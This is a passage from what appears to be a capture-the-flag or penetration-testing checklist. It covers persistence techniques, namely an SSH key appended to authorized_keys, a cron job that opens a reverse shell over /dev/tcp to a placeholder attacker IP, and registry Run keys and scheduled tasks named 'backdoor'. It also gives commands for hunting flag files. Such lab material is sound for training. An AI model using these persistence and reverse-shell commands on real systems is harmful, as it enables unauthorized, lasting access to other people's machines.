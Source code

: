#### Linux Persistence
- [ ] **SSH Keys**:
  ```bash
  mkdir -p ~/.ssh
  echo "<public_key>" >> ~/.ssh/authorized_keys
  chmod 600 ~/.ssh/authorized_keys
  ```
- [ ] **Cron Jobs**:
  ```bash
  (crontab -l ; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'") | crontab -
  ```
- [ ] **Service Creation**:
  ```bash
  # Create systemd service for persistence
  ```

#### Windows Persistence
- [ ] **Registry Run Keys**:
  ```cmd
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\path\to\backdoor.exe"
  ```
- [ ] **Scheduled Tasks**:
  ```cmd
  schtasks /create /tn "backdoor" /tr "C:\path\to\backdoor.exe" /sc minute /mo 1
  ```

---

## 🏆 Phase 7: Advanced Objective Achievement

### Flag Hunting Strategies

#### Common Flag Locations
- [ ] **Linux Standard Locations**:
  ```bash
  find / -name "user.txt" 2>/dev/null
  find / -name "root.txt" 2>/dev/null
  find / -name "*flag*" 2>/dev/null
  find / -name "flag.txt" 2>/dev/null
  ```
- [ ] **Windows Standard Locations**:
  ```cmd
  dir /s /b C:\*user.txt*
  dir /s /b C:\*root.txt*
  dir /s /b C:\*flag*
  ```

#### Advanced Flag Hunting
- [ ] **Hidden Files**:
  ```bash
  find / -name ".*flag*" 2>/dev/null
  ls -la / | grep flag
  ```
- [ ] **Database Searches**:
  ```sql
  SELECT * FROM information_schema.tables WHERE table_name LIKE '%flag%';
  ```
- [ ] **Memory/Process Searching**:
  ```bash
  strings /proc/*/environ | grep -i flag
  ```
- [ ] **Web Directory Flags**:
  ```bash
  find /var/www -name "*flag*" 2>/dev/null
  find /opt -name "*flag*" 2>/dev/null
  ```